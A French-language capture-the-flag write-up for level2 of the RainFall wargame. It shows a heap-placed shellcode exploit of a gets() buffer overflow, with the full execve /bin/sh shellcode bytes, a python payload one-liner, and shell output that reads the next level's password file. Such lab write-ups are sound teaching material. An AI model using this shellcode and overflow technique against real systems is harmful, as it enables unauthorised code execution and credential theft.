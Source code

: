 ﻿Bon cette fois c'est un peu plus complique...

En ouvrant avec GDB on voit que le programme appelle la fonction `p`  
Cette fonction utilise la fonction `gets` donc vulnérable a un buffer overflow  
Juste avant il y a un buffer de 76 bytes qui est déclaré sur la stack  
Malheureusement pour nous, il y a une verification juste apres qui verifie que la fonction `p` ne renvoie pas sur la stack  
Donc on ne peut pas utiliser de shellcode sur la stack  

Cependant, on peut se servir de la heap pour stocker notre shellcode car le programme fait un `strdup` de la chaine passee a `gets`  
Ainsi, on peut recuperer un shellcode sur un site comme [shell-storm](http://shell-storm.org/shellcode/),  
le passer a `gets` pour qu'il soit copie sur la heap et ensuite ecraser l'adresse de retour de `p` pour qu'elle pointe sur notre shellcode

J'ai choisi un shellcode qui appelle `execve` avec `/bin/sh` en argument [ici](https://shell-storm.org/shellcode/files/shellcode-811.html)  
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80` (28 octets)

Derniere chose, il nous faut l'addresse sur la heap de notre shellcode pour pouvoir l'executer.  
On peut le faire avec `ltrace` pour voir l'adresse de la chaine copiee sur la heap

INFO: `ltrace` est un outil qui permet de tracer les appels a des fonctions de librairies dynamiques (comme `strdup` par exemple)

```bash
level2@RainFall:~$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                   = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                                        = 0xbffff70c
puts("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
)                                                                                    = 32
strdup("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")                                            = 0x0804a008                                                                                                                                   = 0x0804a008
+++ exited (status 8) +++
```

On voit que l'adresse de notre chaine est `0x0804a008` soit `0x08a00408` en little endian

Du coup on peut faire notre exploit:
1. On envoie notre shellcode de 28 bytes
2. On envoie (76 + 4) - 28 = 52 bytes au pif (0x42 a tout hasard) pour remplir le buffer
3. On envoie l'adresse de notre shellcode sur la heap pour ecraser l'adresse de retour de `p`

```bash
level2@RainFall:~$ python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x42"*52 + "\x08\xa0\x04\x08"' > /tmp/payload2
level2@RainFall:~$ cat /tmp/payload2 - | ./level2
1�Ph//shh/bin����°
                  ̀1�@̀BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�
pwd
/home/user/level2
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Une bonne video sur le sujet:
[Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)
